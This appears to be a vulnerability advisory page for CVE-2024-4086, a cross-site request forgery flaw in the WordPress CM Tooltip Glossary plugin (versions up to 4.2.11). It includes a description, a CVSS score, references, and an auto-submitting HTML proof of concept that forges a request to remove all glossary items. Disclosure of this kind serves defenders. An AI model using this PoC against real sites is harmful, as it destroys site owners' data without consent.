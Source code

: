```yaml
---
layout: page
title: CVE-2024-4086
subtitle: CM Tooltip Glossary – Powerful Glossary Plugin <= 4.2.11 - Cross-Site Request Forgery
---
```

## Description
The CM Tooltip Glossary – Powerful Glossary Plugin plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 4.2.11. This is due to missing or incorrect nonce validation when saving settings. This makes it possible for unauthenticated attackers to change the plugin's settings or reset them via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity

 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N]([https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N))

## Affected Version
    <= 4.2.11

## PoC :
```
<html>
  <!-- Made by eneriiiii -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=cmtt_settings" method="POST">
      <input type="hidden" name="cmtt&#95;removeAllItems" value="Remove&#32;all&#32;items" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/changeset/3076616/enhanced-tooltipglossary/trunk/settings/CMTT_Settings.php?contextall=1&old=3029791&old_path=%2Fenhanced-tooltipglossary%2Ftrunk%2Fsettings%2FCMTT_Settings.php
- https://www.cve.org/CVERecord?id=CVE-2024-4086
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/enhanced-tooltipglossary/cm-tooltip-glossary-powerful-glossary-plugin-4211-cross-site-request-forgery

